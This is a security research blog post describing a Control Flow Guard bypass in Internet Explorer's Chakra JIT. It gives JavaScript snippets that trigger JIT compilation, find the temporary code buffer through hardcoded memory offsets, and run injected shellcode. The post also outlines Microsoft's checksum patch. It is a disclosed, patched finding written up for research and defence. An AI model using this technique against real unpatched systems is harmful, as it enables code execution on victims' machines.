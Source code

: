 ```yaml
---
layout: post
title: "Chakra JIT CFG Bypass"
description: As promised in our previous blog post, we are going to take a look at a method to bypass Microsoft's Control Flow Guard (CFG) when attacking Internet Explorer and Edge browsers. Our previous proof-of-concept exploit worked by ovewriting the function pointer of an object. However, with CFG in place, we cannot simply do that without aborting. We will assume that the adversay has the read-write memory primitive.
headline:
modified: 2016-12-14
category: research
imagefeature:
mathjax:
chart:
comments: true
featured: true
---
```


## Introduction

As promised in our [previous blog post][previous-post], we are going to take a look at a method to bypass Microsoft's Control Flow Guard (CFG) when attacking Internet Explorer and Edge browsers. Our previous proof-of-concept exploit worked by ovewriting the function pointer of an object. However, with CFG in place, we cannot simply do that without aborting. We will assume that the adversay has the read-write memory primitive.

__Note__: This post was originally planned to be published back in July, but we decided to submit it for Microsoft's Mitigation Bypass and Bounty Defense Program first. The submission was accepted, and Microsoft asked us to hold off on releasing the details about the technique until it is fixed. Now that it has been a couple months since the patch ([MS16-119][ms16-119]) was deployed, we finally release the details here.


## Background

[Control Flow Guard][cfg] is a fairly recent mitigation on Windows that was added by Microsoft. It is designed to be performant while providing an extra layer of protection by validating the targets of the indirect call/jmps. There are many other references[[1]][trend][[2]][core-sec][[3]][mj] that discuss about CFG in detail, so we won't dive in too deeply here.

<img src="../images/2016-12-14/cfg.png"  style="display: block; margin: auto; border: 1px solid #ccc">

While the mitigation makes it harder to perform a control-flow hijacking type of attack, the CFG is inherently not perfect. The technology only protects indirect calls and jumps by design, and thus does not protect the stack (i.e. ROP is still possible). Also, it is worth noting that this is a compile-time instrumentation which requires the source code to be recompiled. Even though many of Microsoft's binaries are now protected with CFG, there are a lot more other programs that aren't compiled with CFG mitigation.


## Chakra JIT

The Chakra JIT is responsible for generating optimized JIT'ed code for functions and loops that are invoked many times. This process is split into multiple stages, with the _Full JIT Compiler_ and _Garbage Collection_ stages occuring in a background thread. An explaination of the pipeline and helpful diagrams can be found on [MSDN][ie11-jit].

<img src="../images/2016-12-14/jit_pipeline.png"  style="display: block; margin: auto; width: 80%">
<center style="font-size: 0.9em; margin-top:0; color: #666">JIT Pipeline (from MSDN)</center><br>

Our focus is going to be on the _Full JIT Compiler_ which is responsible for ingesting the bytecode and outputting native code. The high-level process for an individual function or loop can be found in [Func::Codegen()][chakra-func]. First, an intermediate representation (IR) of the bytecode is generated. The IR will be transformed several times: optimizations, register allocation, prolog and epilog, etc. Once the IR is ready, it will be encoded into native code by [Encoder::Encode()][chakra-encoder].

```cpp
// https://github.com/Microsoft/ChakraCore/blob/master/lib/Backend/Encoder.cpp#L15

void
Encoder::Encode()
{
    NoRecoverMemoryArenaAllocator localAlloc(_u("BE-Encoder"), m_func->m_alloc->GetPageAllocator(), Js::Throw::OutOfMemory);
    m_tempAlloc = &localAlloc;
...
    m_encodeBuffer = AnewArray(m_tempAlloc, BYTE, m_encodeBufferSize);
...
}
```

The `Encoder` performs the nitty-gritty process of generating the actual native code. First, it will allocate **m_encodeBuffer** which will temporarily contain the native code. After all of the native instructions have been emitted into **m_encodeBuffer**, the `Encoder` applies any relocations to the buffer, copies it to _read-only-execute_ memory, and sets it as a valid call target for CFG. At this point, the temporary buffer is no longer used and can be freed.

```cpp
// https://github.com/Microsoft/ChakraCore/blob/master/lib/Backend/Encoder.cpp#L294

...
    m_encoderMD.ApplyRelocs((size_t) workItem->GetCodeAddress());

    workItem->RecordNativeCode(m_func, m_encodeBuffer);

    m_func->GetScriptContext()->GetThreadContext()->SetValidCallTargetForCFG((PVOID) workItem->GetCodeAddress());
...
```

Note that once the code has been copied to the executable memory, it cannot be easily modified. But, while the `Encoder` was generating the native code in the temporary buffer, there was nothing to prevent an adversary from using a write memory primitive to change the code in the temporary buffer. Since the JIT process is in a background thread, the javascript threads are still running normally. The tricky part for the adversary is finding the temporary buffer and modifying it in the short time that the `Encoder` is running.


## Bypassing CFG

Now that we have a basic method for modifying some JIT code, let's put it into action to bypass CFG.

Our process will have three parts:

1. Trigger the JIT.
2. Find the temporary native code buffer.
3. Modify the contents of the buffer.

There is also an implicit last step of executing the JIT'ed code.

### Trigger JIT

The first step, and the easiest, is to trigger the JIT to start encoding a function. In order to make the second step easier, we want the function's code to be large so that we have enough time to find the temporary buffer in memory. The exact instructions in the function do not matter too much.

```javascript
var code = "var i = 10; var j = 1; ";
for (var i = 0; i < 6000; i++)
{
    code += "i *= i + j.toString();";
}
code += "return i.toString();"

f = Function(code);
for (var i = 0; i < 1000; i++)
{
    // trigger jit
    f.call();
}
```

### Find native code buffer

Once the background thread enters _Encoder::Encode()_, we need to quickly find the temporary native code buffer. One way of finding the buffer is to find the page allocator that was used to allocate it and look through the allocated segments. We noticed that we could find a reference to the page allocator by finding the `ThreadContext` and then the `BackgroundJobProcessor` for the background thread.

```javascript
// find the ThreadContext using ThreadContext::globalListLast
var tctx = readN(jscript9Base + 0x00349034, 4);
// BackgroundJobProcessor
var bgjob = readN(tctx + 0x3b0, 4);
// PageAllocator
var pgalloc = bgjob + 0x1c;
```

The `PageAllocator` has several lists of allocated segments. Since the function that is being JIT'ed is large, the temporary native code buffer will be large as well. We can easily find the segment by looking at the _largeSegments_ list. We can use a while-loop to wait until the _largeSegments_ list is non-empty and then proceed with the last step.

```javascript
while (true) {
    // read largeSegments list
    var largeseg = readN(pgalloc + 0x24, 4);
    // check if the list was empty
    if (largeseg == pgalloc + 0x24) continue;
    // get the address of the actual data
    var page = readN(largeseg + 8 + 8, 4);
    if (page == 0) continue;
    break;
}
```

### Modify and run

Now that we have the location of the temporary native code buffer, we can modify its contents in order to inject our shellcode. While this _should_ be as simple as overwriting the contents of the buffer with our shellcode, it gets complicated because we have to avoid overwriting anything that will be changed in the _relocations_ step. Since the function we used to trigger the JIT calls _toString()_ often, we do not have much space for shellcode while avoiding relocations.

While the best option would be to change the function we are JIT'ing, we instead opted to use a first-stage shellcode that simply calls VirtualProtect and jumps to our second-stage shellcode. This first-stage shellcode is very small (only 20 bytes). We fit it into the buffer by emitting a short jump at the beginning of the buffer to the first-stage which is located at some small offset into the buffer. 

Our second-stage shellcode can now be any length, so in our exploit we use a metasploit-generated shellcode that executes _notepad.exe_. In practice, this second-stage would be responsible for bypassing protected mode (sandbox).

The last step of the process, after we have modified the temporary buffer, is to wait until the JIT'ing process is done and execute the modified JIT code. This can be accomplished by calling the target function until your shellcode executes.

```javascript
for (var i = 0; i < 1000; i++)
{
    // call overwritten jit block
    f.call();
}
```


## Exploit

In order to demonstrate the technique, we adapted the [previous code][previous-code] to target Internet Explorer 11 on Windows 10. The code to achieve a read-write memory primitive hasn't changed, but instead of overwriting a function pointer which will trigger the CFG, we use JIT code overwrite to execute our shellcode.

<img src="../images/2016-12-14/exploit_success.png" style="display: block; margin: auto; border: 1px solid #ccc">

You can find the final proof-of-concept exploit at [https://github.com/theori-io/jscript9-typedarray-cfg][poc-github].


## Impact

Since the impact of this CFG bypass is limited to situations where the adversary already has a read-write memory primitive, its usefulness may be limited in practice. With that caveat, this bypass has the advantage of being built into the architecture of the Chakra JIT, which means that it may be difficult to patch out and should not be affected by future mitigations such as [Intel's CET][intel-cet].


## Patch

Microsoft has [committed][patch] the changes in ChakraCore in trying to mitigate the CFG bypass we found (along with other CVE patches). The basic idea is to compute the *checksum* as the encoder encodes the instructions, and validate the checksum after copying the entire buffer to the final RX (read/execute-only) buffer. And, only when it's validated the entry point of JIT'ed code as a valid CFG target. The choice of the checksum algorithm here was CRC32.

We appreciate Microsoft's willingness to offer bug bounties for mitigation bypasses and quick response time. We hope that this post will inspire others to continue to research new ways to bypass current mitigations and develop new mitigations.

[patch]: https://github.com/Microsoft/ChakraCore/commit/097edcd2e452e423b5f83b64b47f6bb7f5cd520d#diff-d30731d63f273a741e4944781d64e709
[ms16-119]: https://technet.microsoft.com/library/security/MS16-119
[trend]: http://blog.trendmicro.com/trendlabs-security-intelligence/exploring-control-flow-guard-in-windows-10/
[mj]: http://www.powerofcommunity.net/poc2014/mj0011.pdf
[core-sec]: https://blog.coresecurity.com/2015/03/25/exploiting-cve-2015-0311-part-ii-bypassing-control-flow-guard-on-windows-8-1-update-3/
[previous-post]: http://theori.io/research/jscript9_typed_array
[previous-code]: https://github.com/theori-io/jscript9-typedarray
[poc-github]: https://github.com/theori-io/jscript9-typedarray-cfg
[cfg]: https://msdn.microsoft.com/en-us/library/windows/desktop/mt637065%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396
[ie11-jit]: https://blogs.msdn.microsoft.com/ie/2014/10/09/announcing-key-advances-to-javascript-performance-in-windows-10-technical-preview/
[chakra-encoder]: https://github.com/Microsoft/ChakraCore/blob/master/lib/Backend/Encoder.cpp
[chakra-func]: https://github.com/Microsoft/ChakraCore/blob/master/lib/Backend/Func.cpp#L243
[chakra-tc]: https://github.com/Microsoft/ChakraCore/blob/master/lib/Runtime/Base/ThreadContext.h
[chakra-alloc]: https://github.com/Microsoft/ChakraCore/blob/master/lib/Common/Memory/PageAllocator.h
[intel-cet]: https://software.intel.com/sites/default/files/managed/4d/2a/control-flow-enforcement-technology-preview.pdf
